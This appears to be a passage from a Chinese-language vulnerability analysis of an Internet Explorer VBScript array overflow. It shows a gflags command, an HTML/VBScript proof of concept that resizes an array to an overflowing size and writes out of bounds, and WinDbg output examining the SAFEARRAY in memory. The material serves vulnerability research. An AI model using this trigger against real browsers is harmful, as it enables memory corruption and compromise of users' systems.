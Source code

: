 关闭之前开启的堆调试：

```
C:\Windows\system32>gflags.exe /i iexplore.exe -hpa
Current Registry Settings for iexplore.exe executable are: 00000000
```

修改下之前的POC，增加`IsEmpty`用于辅助调试：

```html
<!doctype html>
<html lang="en">
<head>
</head>

<body>
<script LANGUAGE="VBScript">
    On Error Resume Next
    dim arrayA()
    dim arrayB()
    dim size
    dim over
    size = &h5
    over = &h8000000 + size
    redim Preserve arrayA(size)

    IsEmpty(arrayA)

    redim arrayB(size)
    redim Preserve arrayA(over)
    IsEmpty(arrayA)
    arrayA(size+1) = 5
</script>
</body>
</html>
```



调试上面poc，使用IE打开poc后附加 IE 进程，在`vbscript!VbsIsEmpty`对 `IsEmpty`下断点进行调试：

```assembly
0:013> bu vbscript!VbsIsEmpty
0:013> bl
 0 eu             0001 (0001) (vbscript!VbsIsEmpty)
0:005> g
Tue Jun 25 14:39:48.836 2019 (GMT+8): Breakpoint 0 hit
eax=6a2d185c ebx=024ad034 ecx=6a32a9d8 edx=024acfac esi=01f8a088 edi=00000001
eip=6a2ec206 esp=024acec8 ebp=024aced8 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
vbscript!VbsIsEmpty:
6a2ec206 8bff            mov     edi,edi
0:005> kv 2
ChildEBP RetAddr  Args to Child
024acec4 6a2d3854 024acfac 00000001 003dfb00 vbscript!VbsIsEmpty (FPO: [3,0,0])
024aced8 6a2d586e 024acfac 00000001 003dfb00 vbscript!StaticEntryPoint::Call+0x11 (FPO: [5,0,0])
0:005> dd 003dfb00 l4
003dfb00  0000600c 00000000 01f87798 0010d850
0:005> dt tagVARIANT 003dfb00 vt wReserved1 wReserved2 wReserved3 pparray
ole32!tagVARIANT
   +0x000 vt         : 0x600c
   +0x002 wReserved1 : 0
   +0x004 wReserved2 : 0
   +0x006 wReserved3 : 0
   +0x008 pparray    : 0x01f87798  -> 0x0010d850 tagSAFEARRAY
0:005> dd 01f87798 l4
01f87798  0010d850 00000000 00000000 08cfd360
0:005> dd 0010d850 l8
```